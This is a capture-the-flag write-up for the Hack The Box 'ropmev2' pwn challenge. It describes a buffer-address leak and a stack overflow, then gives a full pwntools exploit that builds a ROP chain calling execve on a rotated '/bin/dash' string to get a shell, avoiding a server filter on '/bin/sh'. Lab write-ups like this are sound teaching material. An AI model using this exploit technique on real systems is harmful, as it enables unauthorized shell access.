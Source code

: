# [ropmev2](https://www.hackthebox.eu/home/challenges/Pwn) - PWN Challenge (40 points)  

##### We are facing a 64 bit elf with only NX enabled. That's a nice start.  
  
## DISASSEMBLY
##### In **IDA**, we can see that there is a buffer that stores up to 208 bytes. It asks for an input and compares it with ***'DEBUG\N'*** and if they are the same, the program leaks the address of the buffer. After that, a call to **main()** occurs, making the program to loop. So far so good, we have a ***leak*** and a possible *bof* due to the fact that **read()**  reads up to 500 bytes and stores them to buf. There is also a function that rotates the characters of the buf according to which letter is reads. 

## EXECUTION  
##### Giving 'DEBUG' many times in the program, we get different address of the buf. Observating them, we can see that each of them is at 224 offset from the previous/next. From this, we can calculate the address of the next buf.  

## CRAFTING PAYLOAD
##### We have no libc, so we won't use .got and .plt. What we are gonna do is use **syscall(execve('/bin/dash'))**. (We are not using '/bin/sh' cause there is a troll script in the server that echoes 'LOL NOPE' and exits when it reads '/bin/sh'). We are going to leak the addr of buf, then fill the next buf (we know the offset of next buf) with:  

```  
 '/ova/qnfu\x00', ('/bin/dash') but with the rotation according to the func
 junk
 rax with 0x3b
 rdi with leaked 
 rsi with \x00
 rdx with \x00
 syscall
```
## EXPLOIT
```
from pwn import *

ip = 'docker.hackthebox.eu'
port = 31213 # change this
filename = './ropmev2' # change this

def pwn():
    r = remote(ip, port)
    #r = process(filename)
    elf = ELF(filename)
    rop = ROP(elf)

    # Find the necessary gadgets #
    rdi = p64(rop.find_gadget(['pop rdi'])[0])
    rsi = p64(rop.find_gadget(['pop rsi'])[0])
    rax = p64(rop.find_gadget(['pop rax'])[0])
    rdx = p64(rop.find_gadget(['pop rdx'])[0])
    syscall = p64(rop.find_gadget(['syscall'])[0])

    # Leak the address of buf #
    payload = 'DEBUG'
    r.sendlineafter('hack me', payload)
    r.recvuntil('this is')
    leaked = r.recvline().strip()
    leaked = int(leaked, 16)
    r.recvuntil('hack me')

    # Calculate buffer's offset #
    off = 224
    leaked -= off
    leaked = p64(leaked)

    # Craft payload syscall(execve('/bin/dash')) #
    sh = '/ova/qnfu\x00' # /bin/dash cause there is a func that changes the letters of buf.
    payload = sh + 'a'*(216 -len(sh)) + rax + p64(0x3b)
    payload += rdi + leaked + rsi + p64(0x00) + p64(0x00)
    payload += rdx + p64(0x00) + p64(0x00) + syscall
    r.sendline(payload)
    r.interactive()

pwn()
```

Link: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

[![W3tH4nds](https://www.hackthebox.eu/badge/image/70668)](https://www.hackthebox.eu/home/users/profile/70668)

